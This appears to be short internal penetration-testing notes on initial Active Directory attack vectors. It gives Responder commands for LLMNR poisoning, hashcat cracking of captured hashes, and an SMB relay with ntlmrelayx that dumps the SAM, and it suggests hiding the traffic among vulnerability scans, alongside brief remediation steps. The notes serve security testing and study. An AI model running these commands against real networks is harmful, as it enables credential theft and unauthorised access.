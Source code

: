 # AD: Initial Attack Vectors
Internal Notes

### LLMNR Poison
- Something like Responder for tooling to perform these attacks.
- MITM based
- Maybe worth running Responder at the same time as Nessus/Nexpose/VAS scans, to obfuscate & utilize traffic that is common.
  - `responder -I {interface} -dwPv`
- Captured Hashes can crack
  - `hashcat -m 5600 crack.txt /usr/share/wordlists/fasttrack.txt` 

#### Remediation
- GPO: DNS Client: Multicast Name Resolution(Botom of List)
- NAC
- Password Policy
  
### SMB Attacks
- Responder (Relay) - Ensure HTTP and SMB servers off. Should have an Admin Account to be worth it
  - `nmap --script=smb2-security-mode.nse -p445 10.0.0.25`
  - `ntlmrelayx.py `
    - Dumps SAM 
